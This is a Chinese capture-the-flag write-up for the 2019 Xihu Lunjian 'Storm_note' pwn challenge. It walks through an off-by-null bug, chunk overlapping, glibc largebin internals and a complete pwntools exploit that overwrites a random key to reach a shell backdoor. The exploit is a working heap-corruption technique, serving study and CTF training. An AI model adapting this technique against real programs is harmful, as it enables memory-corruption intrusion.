## 2019 西湖论剑 Storm_note

### 漏洞类型

off_by_null

### 背景知识

largebin attackunlinkchunk overlapping

### 保护机制

```
[*] '/home/leo/pwn/xihu/Storm_note'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### 程序逻辑

1、init_proc

```
ssize_t init_proc()
{
  ssize_t result; // rax
  int fd; // [rsp+Ch] [rbp-4h]

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  if ( !mallopt(1, 0) )                         // 禁用fastbin
    exit(-1);
  if ( mmap((void *)0xABCD0000LL, 0x1000uLL, 3, 34, -1, 0LL) != (void *)0xABCD0000LL )
    exit(-1);
  fd = open("/dev/urandom", 0);
  if ( fd < 0 )
    exit(-1);
  result = read(fd, (void *)0xABCD0100LL, 0x30uLL);
  if ( result != 48 )
    exit(-1);
  return result;
}
```

程序一开始就对进程进行初始化，`mallopt(1, 0)`禁用了fastbin，然后通过mmap在0xABCD0000分配了一个页面的可读可写空间，最后往里面写入一个随机数。

2、add

```
for ( i = 0; i <= 15 && note[i]; ++i )//按顺序存放堆指针
    ;
  if ( i == 16 )
  {
    puts("full!");
  }
  else
  {
    puts("size ?");
    _isoc99_scanf((__int64)"%d", (__int64)&v1);
    if ( v1 > 0 && v1 <= 0xFFFFF )
    {
      note[i] = calloc(v1, 1uLL);//清空内容
      note_size[i] = v1;//0x202060
      puts("Done");
    }
```

首先遍历全局变量note，找到一个没有存放内容的地方保存堆指针。然后限定了申请的堆的大小最多为0xFFFFF，调用calloc函数来分配堆空间，因此返回前会对分配的堆的内容进行清零。

3、edit

```
puts("Index ?");
  _isoc99_scanf((__int64)"%d", (__int64)&v1);
  if ( v1 >= 0 && v1 <= 15 && note[v1] )//0x2020a0
  {
    puts("Content: ");
    v2 = read(0, note[v1], (signed int)note_size[v1]);
    *((_BYTE *)note[v1] + v2) = 0;              // off_by_null
    puts("Done");
  }
```

存在一个off_by_null漏洞，在read后v2保存写入的字节数，最后在该偏移处的字节置为0，形成off_by_null。

4、delete

```
puts("Index ?");
  _isoc99_scanf((__int64)"%d", (__int64)&v1);
  if ( v1 >= 0 && v1 <= 15 && note[v1] )
  {
    free(note[v1]);
    note[v1] = 0LL;
    note_size[v1] = 0;
  }
```

正常free

5、backdoor

```
void __noreturn backdoor()
{
  char buf; // [rsp+0h] [rbp-40h]
  unsigned __int64 v1; // [rsp+38h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  puts("If you can open the lock, I will let you in");
  read(0, &buf, 0x30uLL);
  if ( !memcmp(&buf, (const void *)0xABCD0100LL, 0x30uLL) )
    system("/bin/sh");
  exit(0);
}
```

程序提供一个可以直接getshell的后门，触发的条件就是输入的数据与mmap映射的空间的前48个字节相同。

### 利用思路

根据程序提供的后门，可以通过两种方法来触发：

> 1、通过泄露信息来获取写入的随机数2、通过实现任意写来改写0xABCD0000地址的48字节随机数成已知的数据。

但这题没有提供输出函数，因此第一种方法不好利用，这里采取第二种方法，实现任意写。这题由于禁用了fastbin，可以考虑使用largebin attack来是实现任意写。

> 1、利用off_by_null 漏洞实现chunk overlapping，从而控制堆块内容。2、将处于unsortedbin的可控制的chunk放入largebin中，以便触发largebin attack3、控制largebin的bk和bk_nextsize指针，通过malloc触发漏洞，分配到目标地址，实现任意地址写

### 具体实现

第一步：chunk overlapping

```
add(0x18)#0
add(0x508)#1
add(0x18)#2

add(0x18)#3
add(0x508)#4
add(0x18)#5
add(0x18)#6
```

首先分配7个chunk，chunk1和chunk4是用于放入largebin的大chunk，chunk6防止top chunk合并。

```
edit(1,'a'*0x4f0+p64(0x500))#prev_size
edit(4,'a'*0x4f0+p64(0x500))#prev_size
```

构造两个伪造的prev_size，用于绕过malloc检查，保护下一个chunk的prev_size不被修改。



```
dele(1)
edit(0,'a'*0x18)#off by null
```

利用off_by_null漏洞改写chunk1的size为0x500



```
add(0x18)#1
add(0x4d8)#7 0x050

dele(1)
dele(2)    #overlap
```



先将0x20的chunk释放掉，然后释放chunk2，这时触发unlink，查可以看到在note中chunk7保存着0x...50的指针，但这一块是已经被释放掉的大chunk，形成堆块的重叠。因此如果申请0x18以上的chunk，就能控制该chunk的内容了。

```
#recover
add(0x30)#1
add(0x4e0)#2
```



申请0x30的chunk，形成chunk overlapping。接下来用同样的方法对第二个大chunk进行overlapping

```
dele(4)
edit(3,'a'*0x18)#off by null
add(0x18)#4
add(0x4d8)#8 0x5a0
dele(4)
dele(5)#overlap
add(0x40)#4 0x580
edit(8,'ffff')
```

第二步：放入largebin

如何才能触发条件，将unsortedbin中的大chunk放入largebin呢？接下来从源码分析该机制。

```
while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))//从第一个unsortedbin的bk开始遍历
{
    bck = victim->bk;
    size = chunksize (victim);
    if (in_smallbin_range (nb) &&//<_int_malloc+627>
        bck == unsorted_chunks (av) &&
        victim == av->last_remainder &&
        (unsigned long) (size) > (unsigned long) (nb + MINSIZE))    //unsorted_bin的最后一个，并且该bin中的最后一个chunk的size大于我们申请的大小
    {remainder_size = size - nb;
     remainder = chunk_at_offset (victim, nb);...}//将选中的chunk剥离出来，恢复unsortedbin
    if (__glibc_unlikely (bck->fd != victim))
            malloc_printerr ("malloc(): corrupted unsorted chunks 3");
     unsorted_chunks (av)->bk = bck;    //largebin attack
    //注意这个地方，将unsortedbin的bk设置为victim->bk，如果我设置好了这个bk并且能绕过上面的检查,下次分配就能将target chunk分配出来
    if (size == nb)//size相同的情况同样正常分配
    if (in_smallbin_range (size))//放入smallbin
     {
        victim_index = smallbin_index (size);
        bck = bin_at (av, victim_index);
        fwd = bck->fd;
     }
     else//放入large bin
     {
         while ((unsigned long) size < chunksize_nomask (fwd))
         {
            fwd = fwd->fd_nextsize;//fd_nextsize指向比当前chunk小的下一个chunk
            assert (chunk_main_arena (fwd));
          }
          if ((unsigned long) size
                          == (unsigned long) chunksize_nomask (fwd))
                        /* Always insert in the second position.  */
             fwd = fwd->fd;
          else// 插入
          {
            //解链操作，nextsize只有largebin才有
            victim->fd_nextsize = fwd;
            victim->bk_nextsize = fwd->bk_nextsize;
            fwd->bk_nextsize = victim;
            victim->bk_nextsize->fd_nextsize = victim;//fwd->bk_nextsize->fd_nextsize=victim
           }
          bck = fwd->bk;
      }
   }
 else
     victim->fd_nextsize = victim->bk_nextsize = victim;
}
 mark_bin (av, victim_index);
//解链操作2,fd,bk
 victim->bk = bck;
 victim->fd = fwd;
 fwd->bk = victim;
 bck->fd = victim;
//fwd->bk->fd=victim
dele(2)    #unsortedbin-> chunk2 -> chunk5(0x5c0)    which size is largebin FIFO
add(0x4e8)      # put chunk8(0x5c0) to largebin
dele(2) #put chunk2 to unsortedbin
```

简要总结一下这个过程，在unsortedbin中存放着两个大chunk，第一个0x4e0，第二个0x4f0。当我申请一个0x4e8的chunk时，首先找到0x4e0的chunk，太小了不符合调件，于是将它拿出unsortedbin，放入largebin。在放入largebin时就会进行两步解链操作，两个解链操作的最后一步是关键。



可以看到从unsortedbin->bk开始遍历，第一个的`size < nb`因此就会放入largebin，继续往前遍历，找到0x4f0的chunk，刚好满足`size==nb`，因此将其分配出来。最后在delete(2)将刚刚分配的chunk2再放回unsortedbin，进行第二次利用。



第三步：largebin attack

再回顾一下之前源码中更新unsortedbin的地方

```
bck = victim->bk;
if (__glibc_unlikely (bck->fd != victim))
     malloc_printerr ("malloc(): corrupted unsorted chunks 3");
unsorted_chunks (av)->bk = bck;    //largebin attack
content_addr = 0xabcd0100
fake_chunk = content_addr - 0x20

payload = p64(0)*2 + p64(0) + p64(0x4f1) # size
payload += p64(0) + p64(fake_chunk)      # bk
edit(7,payload)
```



```
payload2 = p64(0)*4 + p64(0) + p64(0x4e1) #size
payload2 += p64(0) + p64(fake_chunk+8)   
payload2 += p64(0) + p64(fake_chunk-0x18-5)#mmap

edit(8,payload2)
```

修改largebin的bk和bk_nextsize

)

分析一下为什么改写为这些值。先回顾一下两个解链操作。

```
            victim->fd_nextsize = fwd;
            victim->bk_nextsize = fwd->bk_nextsize;
            fwd->bk_nextsize = victim;
            victim->bk_nextsize->fd_nextsize = victim;//fwd->bk_nextsize->fd_nextsize=victim
           }
          bck = fwd->bk;
      }
   }
 else
     victim->fd_nextsize = victim->bk_nextsize = victim;
}
 mark_bin (av, victim_index);
//解链操作2,fd,bk
 victim->bk = bck;
 victim->fd = fwd;
 fwd->bk = victim;
 bck->fd = victim;
//fwd->bk->fd=victim
```

根据之前的chunk overlappnig，可以控制largebin的bk和bk_nextsize，fwd就是已经放入largebin的chunk，victim就是unsortedbin中需要放入largebin的chunk。`victim->bk_nextsize->fd_nextsize = victim;//fwd->bk_nextsize->fd_nextsize=victim`在fwd->bk_nextsize中放入目标的addr，实现`*(addr+0x20) = victim``bck->fd = victim;`在fwd->bk中放入目标addr，实现`*(addr+0x10)=victim`因为unsortedbin中存放了fake_chunk，但那里没有一个符合条件的size，因此需要通过这个解链操作给那里写入一个地址，作为size。



> (fake_chunk-0x18-5 + 0x20) = (fake_chunk+3) = victim

最后能在fake_chunk上写入0x56，而程序开了PIE保护，程序基址有一定几率以0x56开头。

```
bck->fd = unsorted_chunks (av)
```

同时还要保证bck的地址有效

> (fake_chunk+8+0x10)=(fake_chunk+0x18)=victim

```
add(0x40)
```



从unsortedbin的bk开始遍历，发现bk是0xabcd00e0，bck!=unsorted_chunks (av)，因此不会从该chunk中剥离一块内存分配。然后执行一下语句

```
unsorted_chunks (av)->bk = bck;    
bck->fd = unsorted_chunks (av);
```

将0xabcd00e0->bk重新放入unsortedbin。然后由于size==nb，返回分配，成功将目标地址返回。



```
payload = p64(0) * 2+p64(0) * 6
edit(2,payload)

p.sendlineafter('Choice: ','666')

p.send(p64(0)*6)
```

最后将0XABCD0100的随机数修改为0，触发后门即可。

### EXP

```py
from pwn import *
p = process('./Storm_note')

def add(size):
  p.recvuntil('Choice')
  p.sendline('1')
  p.recvuntil('?')
  p.sendline(str(size))

def edit(idx,mes):
  p.recvuntil('Choice')
  p.sendline('2')
  p.recvuntil('?')
  p.sendline(str(idx))
  p.recvuntil('Content')
  p.send(mes)

def dele(idx):
  p.recvuntil('Choice')
  p.sendline('3')
  p.recvuntil('?')
  p.sendline(str(idx))


add(0x18)#0
add(0x508)#1
add(0x18)#2

add(0x18)#3
add(0x508)#4
add(0x18)#5
add(0x18)#6

edit(1,'a'*0x4f0+p64(0x500))#prev_size
edit(4,'a'*0x4f0+p64(0x500))#prev_size

dele(1)
edit(0,'a'*0x18)#off by null

add(0x18)#1
add(0x4d8)#7 0x050

dele(1)
dele(2)    #overlap

#recover
add(0x30)#1
add(0x4e0)#2

dele(4)
edit(3,'a'*0x18)#off by null
add(0x18)#4
add(0x4d8)#8 0x5a0
dele(4)
dele(5)#overlap
add(0x40)#4 0x580


dele(2)    #unsortedbin-> chunk2 -> chunk5(chunk8)(0x5c0)    which size is largebin FIFO
add(0x4e8)      # put chunk8(0x5c0) to largebin
dele(2) #put chunk2 to unsortedbin


content_addr = 0xabcd0100
fake_chunk = content_addr - 0x20

payload = p64(0)*2 + p64(0) + p64(0x4f1) # size
payload += p64(0) + p64(fake_chunk)      # bk
edit(7,payload)


payload2 = p64(0)*4 + p64(0) + p64(0x4e1) #size
payload2 += p64(0) + p64(fake_chunk+8)   
payload2 += p64(0) + p64(fake_chunk-0x18-5)#mmap

edit(8,payload2)

add(0x40)
#gdb.attach(p,'vmmap')
payload = p64(0) * 2+p64(0) * 6
edit(2,payload)
p.sendlineafter('Choice: ','666')
p.send(p64(0)*6)
p.interactive()
```